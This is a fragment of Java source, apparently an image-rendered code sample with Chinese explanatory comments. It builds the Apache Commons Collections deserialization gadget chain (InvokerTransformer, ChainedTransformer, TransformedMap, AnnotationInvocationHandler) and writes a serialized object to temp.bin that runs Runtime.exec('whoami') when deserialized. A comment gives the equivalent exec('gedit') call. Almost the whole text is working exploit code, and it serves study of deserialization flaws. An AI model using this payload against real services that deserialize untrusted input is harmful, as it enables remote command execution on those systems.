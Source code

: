 ```java
        //transformers: 一个transformer链，包含各类transformer对象（预设转化逻辑）的转化数组
        Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            /*
            由于Method类的invoke(Object obj,Object args[])方法的定义
            所以在反射内写new Class[] {Object.class, Object[].class }
            正常POC流程举例：
            ((Runtime)Runtime.class.getMethod("getRuntime",null).invoke(null,null)).exec("gedit");
            */
            new InvokerTransformer(
                "getMethod",
                new Class[] {String.class, Class[].class },
                new Object[] {"getRuntime", new Class[0] }
            ),
            new InvokerTransformer(
                "invoke",
                new Class[] {Object.class,Object[].class }, 
                new Object[] {null, null }
            ),
            new InvokerTransformer(
                "exec",
                new Class[] {String[].class },
                new Object[] { "whoami" }
                //new Object[] { execArgs } 
            )
        };

        //transformedChain: ChainedTransformer类对象，传入transformers数组，可以按照transformers数组的逻辑执行转化操作
        Transformer transformedChain = new ChainedTransformer(transformers);

        //BeforeTransformerMap: Map数据结构，转换前的Map，Map数据结构内的对象是键值对形式
        Map<String,String> BeforeTransformerMap = new HashMap<String,String>();

        BeforeTransformerMap.put("hello", "hello");

        //Map数据结构，转换后的Map
       /*
       TransformedMap.decorate方法,预期是对Map类的数据结构进行转化，该方法有三个参数。
            第一个参数为待转化的Map对象
            第二个参数为Map对象内的key要经过的转化方法（可为单个方法，也可为链，也可为空）
            第三个参数为Map对象内的value要经过的转化方法。
       */
        Map AfterTransformerMap = TransformedMap.decorate(BeforeTransformerMap, null, transformedChain);

        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");

        Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class, AfterTransformerMap);

        File f = new File("temp.bin");
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
        out.writeObject(instance);
    }
}

/*
思路:构建BeforeTransformerMap的键值对，为其赋值，
     利用TransformedMap的decorate方法，对Map数据结构的key/value进行transforme
     对BeforeTransformerMap的value进行转换，当BeforeTransformerMap的value执行完一个完整转换链，就完成了命令执行

     执行本质: ((Runtime)Runtime.class.getMethod("getRuntime",null).invoke(null,null)).exec(.........)
```